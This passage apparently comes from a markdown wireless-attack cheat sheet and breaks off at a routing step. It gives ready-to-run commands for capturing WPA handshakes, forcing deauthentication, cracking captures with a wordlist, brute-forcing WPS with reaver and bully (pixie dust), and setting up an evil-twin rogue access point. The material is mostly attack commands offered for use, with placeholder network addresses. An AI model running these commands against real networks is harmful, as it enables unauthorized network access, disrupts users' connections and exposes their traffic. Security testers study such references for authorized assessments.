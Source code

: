 Focus on:

* Weak encryption (WEP/WPA)
* Hidden SSIDs
* High client count networks

***

### III. 💣 Wireless Cracking Attacks

#### 🧠 Capturing WPA Handshakes

```bash
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 6 --write capture wlan0mon
```

#### ⚙️ Deauth to Force Handshake

```bash
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon
```

#### 💣 Crack with Wordlist

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture.cap
```

***

### IV. 🧠 WPS Attacks

#### ⚙️ Bruteforce with Reaver

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv
```

#### 💣 Pixie Dust Attack

Exploit weak WPS pin generation:

```bash
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -v 3
```

***

### V. ⚙️ Evil Twin & Rogue AP Attacks

#### 🧩 Setup Rogue AP

```bash
sudo airbase-ng -e "FreeWiFi" -c 6 wlan0mon
```

#### ⚙️ Enable Routing
